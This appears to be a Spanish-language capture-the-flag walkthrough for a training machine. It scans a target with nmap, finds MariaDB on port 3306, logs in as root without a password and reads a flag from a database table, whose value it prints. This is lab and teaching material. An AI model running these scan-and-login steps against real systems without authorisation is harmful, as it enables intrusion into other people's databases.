 1. **Escaneamos los puertos más comunes usando scripts predeterminados y determinamos los servicios y versiones que se están ejecutando en los puertos abiertos.**
```bash
nmap -sV -sC [target ip]
```
--> port 3306/tcp - open - mysql
--> MySQL 5.5.5-10.3.27-MariaDB-0+deb10u1


2. **Vemos que está abierto el puerto de `mysql` con MariaDB y entramos en la base de datos de la máquina objetivo con el usuario root sin contraseña. Si nos sale un error de SSL, hacemos `--skip-ssl`**
```bash
mysql -h [target ip] -u root --skip-ssl
```
--> **MACHINE PWNED!**


3. **Nos movemos dentro y capturamos la flag**
```bash
MariaDB [{none}]> SHOW databases;
DATABASES: htb / information / mysql

MariaDB [{none}]> USE htb;
DATABASE CHANGED

MariaDB [htb]> SHOW tables;
TABLES IN HTB: config / users

MariaDB [htb]> SELECT * FROM config;
flag - 7b4bec00d1a39e3dd4e021ec3d915da8
```
--> That's it!